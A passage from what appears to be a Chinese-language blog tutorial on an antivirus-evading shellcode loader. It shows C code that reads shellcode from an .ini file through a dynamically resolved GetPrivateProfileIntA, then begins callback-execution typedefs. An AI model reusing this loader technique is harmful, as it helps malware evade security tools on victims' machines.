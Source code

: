![]()

![]()  
这里把写入shellcode后的ini配置文件和程序放在一起，利用GetCurrentDirectoryA获取当前程序的所在目录，利用strcat函数把目录和sc.ini文件名拼接在一起，就得到了sc.ini的完整路径，如下图所示

![]()  
随后我们只需要循环调用GetPrivateProfileIntA获取值进行解密即可

    
    
    unsigned int bt[3000];  
    char buf[3000];  
    for (int i = 0; i < 3000; i++) {  
        _itoa_s(i, buf, 10);  
        UINT k = GetFileIntA("key",buf, NULL, PATH);  
        bt[i] = k;  
    }  
    

_itoa_s和itoa是一样的，只不过在vs中用itoa会报错，要用_itoa_s,  
其中GetFileIntA是我们之前typedef定义的

    
    
    typedef UINT(WINAPI* GetfileInt)(  
        LPCSTR          LPAPPNAME,  
        LPCSTR          KEYNAME,  
        INT             DEFINE,  
        LPCSTR          FILENAME  
        );  
    GetfileInt GetFileIntA = (GetfileInt)GetFuncAddr(  
        GetModuleHandleA("kernel32.dll"),  
        "GetPrivateProfileIntA"  
    );  
      
    

这里为什么用到itoa函数，是因为GetPrivateProfileIntA的参数是LPCSTR类型（其实就是我们熟悉的char*),在上面我们生成的sc.ini文件是1=1098这种类型的，所以传入的参数得一一对应，传入“1“即可获取1098这个值，所以我们直接利用itoa把1变成“1“，这样就方便了许多，利用for循环把shellcode放入bt这个数组里

拿到shellcode后，接下来就是前面提到过的UAF（对免杀有没有帮助这个我不知道，既然学到了，那就用上呗）

    
    
    typedef BOOL(WINAPI* EnumInfo)(  
        CALINFO_ENUMPROCA   proc,  
        LCID                Eocale,  
        CALID               Calender,  
        CALTYPE             Type  
        );  
      
    typedef BOOL(WINAPI* Exchange_)(  
        LPVOID      lpAddress,  
        SIZE_T      DWsIZE,  
        DWORD       New,  
        PDWORD      Old  
        );  
      